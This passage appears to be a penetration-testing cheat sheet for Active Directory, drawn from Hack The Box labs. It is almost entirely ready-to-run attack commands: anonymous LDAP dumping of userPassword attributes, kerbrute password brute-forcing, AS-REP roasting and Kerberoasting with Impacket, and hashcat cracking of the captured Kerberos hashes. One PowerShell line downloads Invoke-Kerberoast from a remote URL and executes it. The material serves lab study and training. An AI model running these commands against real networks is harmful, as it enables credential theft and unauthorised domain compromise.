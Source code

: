         > python3
        >>> import ldap3
        >>> server = ldap3.Server('x.X.x.X', get_info = ldap3.ALL, port =389, use_ssl = False)
        >>> connection = ldap3.Connection(server)
        >>> connection.bind()
        True
        - Gather all info
        >>> server.info
        >>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*')
        True
        >> connection.entries
        - Dump all of ldap
        >> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='userPassword')
        True
        >>> connection.entries

## Kerberos
    - kerbrute (Brute force access)
        > kerbrute bruteuser --dc 10.10.10.161 -d htb.local -v -t 200 --safe /usr/share/wordlists/rockyou.txt sebastien
    - GetNPUsers.py (pull hash of each user)
        > for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
        - Or just run the following
            > GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request
    - Kerberoasting
        - Powershell
            > iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1") 
            > Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
        - GetUsersSPNs.py (pull hashes for specific users)
            > GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs -save -outputfile GetUsersSPNs.out
            - check .out file for ticket
    - Crack hash
        - pull hash with GetNPUsers.py, any lines found put the whole hash into a file.
            - Copy whole thing! "$krb5asrep$23$svc-alfresco@HTB:5208fc44fd91841c26f47b28712....etc."
        - use hashcat

            7500  | Kerberos 5, etype 23, AS-REQ Pre-Auth            | Network Protocols
            13100 | Kerberos 5, etype 23, TGS-REP                    | Network Protocols
            18200 | Kerberos 5, etype 23, AS-REP                     | Network Protocols
            19600 | Kerberos 5, etype 17, TGS-REP                    | Network Protocols
            19700 | Kerberos 5, etype 18, TGS-REP                    | Network Protocols
            19800 | Kerberos 5, etype 17, Pre-Auth                   | Network Protocols
            19900 | Kerberos 5, etype 18, Pre-Auth                   | Network Protocols

            > hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force
            > hashcat -m 13100 GetUsersSPNs.out /usr/share/wordlists/rockyou.txt --force

